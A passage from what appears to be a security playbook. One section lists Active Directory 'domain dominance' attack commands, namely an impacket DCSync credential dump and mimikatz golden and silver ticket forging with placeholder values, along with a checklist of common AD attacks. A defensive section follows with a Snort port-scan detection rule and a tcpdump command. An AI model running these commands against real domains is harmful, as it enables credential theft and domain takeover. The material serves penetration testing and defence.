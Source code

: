 ### Phase 6: Domain Dominance
```bash
# DCSync attack
impacket-secretsdump domain/username:password@dc_ip

# Golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-... /krbtgt:hash /ptt

# Silver ticket
mimikatz # kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-... /target:service.domain.com /service:cifs /rc4:hash /ptt
```

### Common AD Attacks Checklist
```
□ LLMNR/NBT-NS poisoning
□ SMB relay
□ Kerberoasting
□ AS-REP roasting
□ Password spraying
□ GPP password extraction
□ Unconstrained delegation
□ Constrained delegation
□ Pass the hash
□ Pass the ticket
□ Overpass the hash
□ DCSync
□ Golden ticket
□ Silver ticket
□ AdminSDHolder abuse
□ DCShadow
```

---

# Network Security Playbooks

## PLAYBOOK 8: Network Intrusion Detection

### Detection Use Cases

#### Port Scanning Detection
```bash
# Snort rule
alert tcp any any -> $HOME_NET any (msg:"Possible Port Scan"; flags:S; threshold: type threshold, track by_src, count 20, seconds 60; sid:1000001;)

# Investigation
tcpdump -nn -r pcap_file 'tcp[tcpflags] & tcp-syn != 0'
```
